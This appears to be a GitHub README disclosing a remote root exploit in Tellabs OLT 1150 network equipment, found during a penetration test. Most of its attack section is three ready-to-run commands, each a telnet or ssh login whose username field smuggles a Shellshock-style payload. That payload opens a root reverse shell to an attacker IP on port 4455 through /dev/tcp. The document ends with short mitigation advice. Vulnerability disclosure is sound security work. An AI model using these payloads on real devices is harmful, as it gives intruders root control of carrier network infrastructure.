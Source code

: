 # tellabs_rce
Tellabs OLT RCE

During a recent penetration test, a vulnerability in the way Tellabs handles incoming authentication/authorization was discovered which allowed us to bypass the authentication methods on the Tellabs OLT 1150 device. It is highly suspected that this vulnerability exists in other devices as well.

[Product]

Vendor: Tellabs

Model: MX-IPTV1150

System Version: FP29.2_015873

Release: ONT709.2.50.12

Date: 180722

Steps to reproduce were rather simple, and based on the older Telnet "ShellShock" vulnerability.

It's known that the following methods all produced a netcat reverse shell as root:
Steps used to exploit:

	telnet [OLTHOSTNAME] -l ";EOF() { :;}; /usr/bin/id & /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
The above command asked for the username within the telnet session, and when it timed out, produced the output: "uid=0(emsuser) gid=0(root)" showing that the second portion of the command was not parsed, and the system was vulnerable.

	telnet [OLTHOSTNAME] -l "() { :;}; $((/bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1)) /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
The above command was run and produced a reverse 'netcat' style shell to the attacker IP address with a full root bash shell. Again, suspect the second portion of the command was unnecessary, but due to time constraints, was unable to test further.


	ssh [OLTHOSTNAME] -l "''; /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
After 3 failed authentication attempts the connect back to the netcat listener occurs and you are dropped in a root shell. (Contributed by Sandia National Laboratory)


Due to customer concerns with the critical nature of the networking infrastructure, further testing beyond the above was not possible, and the customer immediately contacted the vendor to work on a patch.


## Recommendations:
Contact the vendor for a patch

Move management interfaces to specific VLAN and ensure only the minimum number of personnel can access that interface
